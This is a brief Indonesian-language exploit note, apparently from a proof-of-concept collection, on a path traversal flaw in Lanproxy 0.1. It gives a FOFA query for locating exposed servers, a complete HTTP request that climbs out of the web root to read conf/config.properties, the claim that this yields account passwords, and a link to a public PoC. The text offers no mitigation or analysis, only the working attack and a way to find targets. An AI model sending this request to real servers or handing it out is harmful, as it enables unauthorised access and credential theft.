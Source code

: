 <languages  />

Dampak Kerentanan
-----------------

    Lanproxy 0.1

FOFA
----

    header= "Server: LPS-0.1"

Kirim permintaan berikut:

    GET /../conf/config.properties HTTP/1.1
    Host: xxx.xxx.xxx.xxx
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
    Connection: close

Berhasil membaca kata sandi akun di file konfigurasi.

POC
---

<https://github.com/FanqXu/CVE-2021-3019/>